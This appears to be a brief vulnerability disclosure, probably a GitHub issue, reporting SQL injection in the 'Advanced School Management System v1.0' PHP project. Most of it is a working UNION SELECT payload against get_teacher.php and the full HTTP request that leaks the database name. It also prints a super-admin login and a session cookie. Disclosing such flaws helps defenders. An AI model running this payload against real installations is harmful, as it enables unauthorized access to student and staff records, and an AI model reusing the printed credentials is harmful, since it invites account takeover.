 # Advanced School Management System v1.0 by itsourcecode.com has SQL injection

Login account: suarez081119@gmail.com/12345 (Super Admin account)

vendors: https://itsourcecode.com/free-projects/php-project/advanced-school-management-system-in-php-with-source-code/

Vulnerability File: /school/model/get_teacher.php?id=

Vulnerability location: /school/model/get_teacher.php?id=,id

[+] Payload: /school/model/get_teacher.php?id=-10%20union%20select%201,database(),3,4,5,6,7,8,9,10--+ // Leak place ---> client_id

Current database name: std_db,length is 6

```sql
GET /school/model/get_teacher.php?id=-10%20union%20select%201,database(),3,4,5,6,7,8,9,10--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=kh42r202aj35u61brcutn42s96
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/171970545-5d39f5bd-6716-48ad-9fbd-1f2a98d337b4.png)
